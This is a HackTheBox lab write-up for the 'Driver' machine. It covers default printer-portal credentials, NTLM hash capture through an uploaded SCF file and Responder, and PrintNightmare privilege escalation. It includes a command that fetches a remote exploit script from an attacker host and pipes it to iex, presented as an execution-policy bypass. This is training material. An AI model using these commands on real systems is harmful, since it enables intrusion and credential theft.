









# Driver -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Driver (HackTheBox)
**Author:** dsec
**Date:** 2025-08-12

---

## TL;DR

### Default creds on printer admin portal. SCF file upload to file share captured NTLM hash via Responder. Privesc via PrintNightmare (CVE-2021-1675).

---

## Target info

- Host: `10.129.x.x`
- Services discovered: `80/tcp (http)`, `445/tcp (smb)`, `5985/tcp (winrm)`

---

## Enumeration

Port 80 had a printer admin portal. Logged in with `admin:admin`.

---

## Foothold

The portal mentioned uploaded files go to a file share. Used `hashgrab.py` to create an SCF file:

```bash
python3 hashgrab.py 10.10.14.242 driver
```

Started Responder:

```bash
sudo responder -I tun0 -wv
```

Uploaded the SCF file:





Captured NTLMv2 hash for `tony`. Cracked with hashcat:



Validated with nxc:



Connected via evil-winrm:



---

## Privilege escalation

Checked PowerShell history:

```powershell
type C:\users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```







**Metasploit ricoh_driver_privesc kept failing** -- meterpreter shell died each time even after migrating to explorer.exe.

**PrintNightmare (CVE-2021-1675):**

John Hammond's script didn't work. Execution policy blocked `Import-Module`. Bypass:

```powershell
curl http://10.10.14.242/CVE-2021-1675.ps1 -UseBasicParsing | iex
Invoke-Nightmare
```



---

## Lessons & takeaways

- Default credentials on admin panels are always worth trying first
- SCF files in shared directories trigger NTLM authentication to attacker-controlled hosts
- When `Import-Module` is blocked by execution policy, pipe `curl | iex` as a bypass
- PrintNightmare (CVE-2021-1675) remains a reliable privesc on unpatched Windows hosts
---
